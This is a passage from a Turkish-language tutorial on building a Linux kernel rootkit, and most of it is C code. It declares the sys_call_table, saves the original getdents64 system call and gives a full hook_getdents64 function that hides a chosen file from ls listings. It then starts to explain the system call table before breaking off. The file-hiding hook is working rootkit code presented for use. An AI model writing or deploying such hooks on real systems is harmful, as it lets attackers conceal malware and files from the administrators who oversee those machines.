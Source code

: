 ```
void **sys_call_table;
```

**LS** komutundan saklayacağımız dosya :

```
#define DOSYA_ISMI "cokgizlidosya.txt"
```

Orjinal **getdents64** sistem çağrısı :

```
asmlinkage int (*org_getdents64) (unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
```

Bu orjinal sistem çağrısı yerine bizim aktaracağımız hookumuz :

```
asmlinkage int hook_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)
{
        int returnval;
        struct linux_dirent64 *cur = dirp;
        int i = 0;
        returnval = org_getdents64(fd, dirp, count);
        while (i < returnval) {
                if (strncmp(cur->d_name, DOSYA_ISMI, strlen(DOSYA_ISMI)) == 0) {
                        int reclen = cur->d_reclen;
                        char *next_rec = (char *)cur + reclen;
                        int len = (int)dirp + returnval - (int)next_rec;
                        memmove(cur, next_rec, len);
                        returnval -= reclen;
                        continue;
                }
                i += cur->d_reclen;
                cur = (struct linux_dirent*) ((char*)dirp + i);
        }
        return returnval;
}
```

Tüm bilgileri toplayıp birleştirdikten sonra bu hooku yazdım.

Hooku basitce açıklayacak olursam. **linux_dirent64** **struct**'u üzerinde bir döngü oluşturduk ve her bir dosya ismini aradık.

Bizim belirttiğimiz gizlenilecek dosya ile aynı ismi taşıyorsa bunu **ls** komutunda gösterme dedik.

# System Call Table
Şimdi geldik değirmenin döndüğü yere.

**System Call Table** yani **sys_call_table** kernelin içerdiği tüm sistem çağrılarını tutar. Aynı zamanda **hafıza** yani **memory** içerisinde nerede olduğunu bize gösterir.
